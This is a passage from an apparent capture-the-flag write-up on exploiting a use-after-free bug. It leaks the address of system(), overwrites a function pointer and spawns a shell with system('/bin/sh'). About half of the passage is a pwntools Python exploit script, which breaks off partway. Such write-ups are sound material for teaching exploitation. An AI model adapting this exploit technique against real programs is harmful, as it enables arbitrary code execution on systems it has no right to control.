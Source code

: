 
## EIP Control

Once we've leaked the address of `system()`, we need to call it while passing in `/bin/sh` as its argument. We can do this by again taking advantage of the use-after-free vulnerability.

To recap, so far we have a `data` chunk sitting on top of what used to be a `number` chunk. From here, in order to get code execution, we can overwrite this `data` chunk's `void (* print)(char *);` member by freeing it, allocating a `number` chunk over it using the address of `system()` as the number, and then printing the now free'd but still in-use `data` chunk.

Of course, in order for us to get a shell, we will need to have passed in `/bin/sh` as the string for this `data` struct from the first time it is allocated. We can redo this step if necessary in order to call `system("/bin/sh")` and spawn a shell.

Putting everything together, the following exploit will grant us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys
from struct import pack

def exploit(r):
  ## Infoleak ##
  r.recvuntil("Choice:")
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline("10") 
  r.recvuntil(": ")
  r.sendline("4") 
  r.recvuntil(": ")
  r.sendline("1")
  r.sendline("/bin/sh")
  r.recvuntil(": ")
  r.sendline("6")
  r.recvuntil(": ")
  r.sendline("1")
  log.info("Leaking addresses...")
  small_str = int(r.recvuntil("\n").split(": ")[2])
  log.success("Small_str() @ " + hex(small_str))
  system = small_str-0x19da37
  log.success("System() @ "+hex(system))
  r.recvuntil(": ")
  
  ## EIP control ##
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline("2")
  r.recvuntil(": ")
  #r.sendline("2953575118")
  r.sendline(str(system))
  r.recvuntil(": ")
  r.sendline("5")
  r.recvuntil(": ")
  r.sendline("1")

  log.success('Enjoy your shell...')  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1: